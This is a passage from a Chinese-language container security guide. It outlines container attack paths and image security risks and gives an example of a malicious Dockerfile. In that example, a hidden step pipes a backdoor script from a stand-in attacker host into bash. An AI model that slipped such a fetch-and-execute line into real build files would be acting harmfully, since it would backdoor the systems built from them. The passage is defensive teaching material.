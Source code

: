 ### 2.2 攻击路径分析

**典型攻击路径**：

```text
外部攻击者
    ↓
网络攻击 → 容器逃逸 → 主机控制 → 横向移动
    ↓
镜像攻击 → 运行时攻击 → 数据窃取 → 持久化
    ↓
供应链攻击 → 构建污染 → 分发攻击 → 部署攻击
```

**攻击路径示例**：

1. **初始访问**：通过漏洞或配置错误获得访问权限
2. **权限提升**：利用容器逃逸或权限提升漏洞
3. **横向移动**：在集群内寻找其他目标
4. **数据收集**：收集敏感信息和凭据
5. **持久化**：建立长期访问机制
6. **数据窃取**：窃取敏感数据

## 3. 镜像安全威胁

### 3.1 镜像安全风险

**常见镜像安全风险**：

- **恶意镜像**：包含恶意代码的镜像
- **漏洞镜像**：包含已知安全漏洞的镜像
- **配置错误**：不安全的默认配置
- **敏感信息**：镜像中包含敏感数据
- **依赖污染**：依赖包被恶意修改

### 3.2 镜像攻击向量

**镜像构建攻击**：

```dockerfile
    # 恶意Dockerfile示例
FROM ubuntu:20.04

    # 看似正常的操作
RUN apt-get update && apt-get install -y curl

    # 隐藏的恶意操作
RUN curl -s http://malicious-site.com/backdoor.sh | bash

    # 继续正常构建
COPY app /app
CMD ["/app/start.sh"]
```
